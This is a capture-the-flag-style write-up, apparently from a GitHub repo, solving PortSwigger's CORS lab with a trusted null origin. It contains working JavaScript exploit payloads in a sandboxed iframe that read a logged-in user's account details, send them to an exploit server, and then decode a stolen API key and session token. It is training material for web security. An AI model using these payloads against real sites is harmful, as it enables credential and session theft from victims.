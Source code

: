 ### CORS Vulnerability With Trusted Null Origin Lab
#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

![Enumeration](01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

![Exploration](02-explore-null-as-origin.png) 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](03-exploit-null-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](04-exfiltrate-null-as-origin-spoils.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
![Solution](05-lab-solution.png)   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswiggerlabs/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin